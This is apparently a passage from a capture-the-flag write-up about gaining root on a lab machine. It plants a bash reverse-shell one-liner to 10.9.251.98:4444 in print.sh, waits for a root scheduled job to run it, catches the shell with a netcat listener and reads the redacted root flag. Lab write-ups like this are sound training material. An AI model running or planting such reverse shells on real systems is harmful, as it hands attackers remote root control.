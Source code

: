 ```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.9.251.98/4444 0>&1
$ 
```
The problem: print.sh or planner.sh need to be executed as root if we want to receive a root-shell.
The key: 
The startup_list.txt seems to get updated every minute or so. Assuming there is a service, running as root, executing the planner.sh file which modifies the .txt file, we would need to just wait until the next execution cycle. Remember, if planner.sh gets executed as root, our print.sh gets also executed as root, sending a reverse shell back to us. Lets set up an appropriate listener and wait for it.
`user@parrot ~ $ nc -lvnp 4444`

It worked. We are root.
```
root@startup:~# cat /root/root.txt
cat /root/root.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
root@startup:~# 
```